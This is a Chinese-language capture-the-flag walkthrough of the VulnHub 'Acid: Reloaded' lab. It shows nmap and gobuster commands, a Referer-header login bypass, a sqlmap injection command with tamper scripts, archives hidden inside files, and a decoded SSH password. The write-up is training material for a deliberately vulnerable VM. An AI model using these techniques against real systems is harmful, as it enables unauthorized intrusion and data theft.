# ACID: RELOADED

> https://download.vulnhub.com/acid/Acid-Reloaded.7z

靶场IP：`192.168.32.206`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.206
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-06 01:40 EDT
Nmap scan report for 192.168.32.206
Host is up (0.0013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 6.7p1 Ubuntu 5ubuntu1.3 (Ubuntu Linux; protocol 2.0)
33447/tcp filtered unknown
MAC Address: 00:0C:29:D0:CF:4C (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.23 seconds

```

访问SSH端口，提示端口敲门，`3.2.1`顺序



重新扫描端口

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.206
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-06 02:13 EDT
Nmap scan report for 192.168.32.206
Host is up (0.0028s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Ubuntu 5ubuntu1.3 (Ubuntu Linux; protocol 2.0)
33447/tcp open  http    Apache httpd 2.4.10 ((Ubuntu))
MAC Address: 00:0C:29:D0:CF:4C (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.42 seconds

```

访问33447端口



发现一个`/bin`目录





爆破页面

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -u http://192.168.32.206:33447/bin -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 2>/dev/null
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.206:33447/bin
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/09/06 02:20:02 Starting gobuster in directory enumeration mode
===============================================================
/crack                (Status: 301) [Size: 329] [--> http://192.168.32.206:33447/bin/crack/]
/index.php            (Status: 200) [Size: 1467]                                            
/css                  (Status: 301) [Size: 327] [--> http://192.168.32.206:33447/bin/css/]  
/includes             (Status: 301) [Size: 332] [--> http://192.168.32.206:33447/bin/includes/]
/js                   (Status: 301) [Size: 326] [--> http://192.168.32.206:33447/bin/js/]      
/styles               (Status: 301) [Size: 330] [--> http://192.168.32.206:33447/bin/styles/]  
/error.php            (Status: 200) [Size: 309]                                                
/dashboard.php        (Status: 200) [Size: 675]  
```

访问`/dashboard.php `



研究数据包，发现会有一个认证页面



尝试添加referer来源，可以发现绕过登录





发现一个路径：`/bin/l33t_haxor.php`



输入`id`参数，显示内容



使用sqlmap，发现一个路径`UB3R/strcpy.exe`

```
┌──(root💀kali)-[/tmp]
└─# sqlmap -u "http://192.168.32.206:33447/bin/l33t_haxor.php?id=1" -D secure_login --tables  --level 5 --risk 3 -p id --batch --tamper=space2comment,space2dash,space2hash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank

```



查看`strcpy.exe`文件，发现是PDF文档

```
┌──(root💀kali)-[~/Downloads]
└─# file strcpy.exe 
strcpy.exe: PDF document, version 1.5 (password protected)

```

修改格式，查看PDF，没有发现什么有用的东西。


查看文件内容，发现有多个文件合在一起，推测这是一个压缩包。

```
strings strcpy.pdf
```

```
┌──(root💀kali)-[~/Downloads]
└─# unrar e strcpy.rar

UNRAR 6.12 freeware      Copyright (c) 1993-2022 Alexander Roshal


Extracting from strcpy.rar

Extracting  acid.txt                                                  OK 
Extracting  lol.jpg                                                   OK 
All OK
                                        
```

解压是一个文本和图片



查看`lol.jpg`，推测也是一个压缩包。



```
┌──(root💀kali)-[~/Downloads]
└─# mv lol.jpg lol.rar                                                                                                                                                                                                                
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/Downloads]
└─# unrar e lol.rar   

UNRAR 6.12 freeware      Copyright (c) 1993-2022 Alexander Roshal


Extracting from lol.rar

Extracting  Avinash.contact                                           OK 
Extracting  hint.txt                                                  OK 
All OK
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/Downloads]
└─# cat Avinash.contact 
<?xml version="1.0" encoding="UTF-8"?>
<c:contact c:Version="1" xmlns:c="http://schemas.microsoft.com/Contact" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:MSP2P="http://schemas.microsoft.com/Contact/Extended/MSP2P" xmlns:MSWABMAPI="http://schemas.microsoft.com/Contact/Extended/MSWABMAPI">
        <c:CreationDate>2015-08-23T11:39:18Z</c:CreationDate><c:Extended><MSWABMAPI:PropTag0x3A58101F c:ContentType="binary/x-ms-wab-mapi" c:type="binary">AQAAABIAAABOAG8AbwBCAEAAMQAyADMAAAA=</MSWABMAPI:PropTag0x3A58101F></c:Extended>
        <c:ContactIDCollection><c:ContactID c:ElementID="599ef753-f77f-4224-8700-e551bdc2bb1e"><c:Value>0bcf610e-a7be-4f26-9042-d6b3c22c9863</c:Value></c:ContactID></c:ContactIDCollection><c:EmailAddressCollection><c:EmailAddress c:ElementID="0745ffd4-ef0a-4c4f-b1b6-0ea38c65254e"><c:Type>SMTP</c:Type><c:Address>acid.exploit@gmail.com</c:Address><c:LabelCollection><c:Label>Preferred</c:Label></c:LabelCollection></c:EmailAddress><c:EmailAddress c:ElementID="594eec25-47bd-4290-bd96-a17448f7596a" xsi:nil="true"/></c:EmailAddressCollection><c:NameCollection><c:Name c:ElementID="318f9ce5-7a08-4ea0-8b6a-2ce3e9829ff2"><c:FormattedName>Avinash</c:FormattedName><c:GivenName>Avinash</c:GivenName></c:Name></c:NameCollection><c:PersonCollection><c:Person c:ElementID="865f9eda-796e-451a-92b1-bf8ee2172134"><c:FormattedName>Makke</c:FormattedName><c:LabelCollection><c:Label>wab:Spouse</c:Label></c:LabelCollection></c:Person></c:PersonCollection><c:PhotoCollection><c:Photo c:ElementID="2fb5b981-cec1-45d0-ae61-7c340cfb3d72"><c:LabelCollection><c:Label>UserTile</c:Label></c:LabelCollection></c:Photo></c:PhotoCollection></c:contact>
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/Downloads]
└─# cat hint.txt       
You have found a contact. Now, go and grab the details :-)

```

分析xml找到一串base64字符串和两个用户（`Avinash`，`Makke`）

```
┌──(root💀kali)-[~/Downloads]
└─# echo 'AQAAABIAAABOAG8AbwBCAEAAMQAyADMAAAA=' | base64 -d 
NooB@123    
```

ssh登录



找到一个提示。




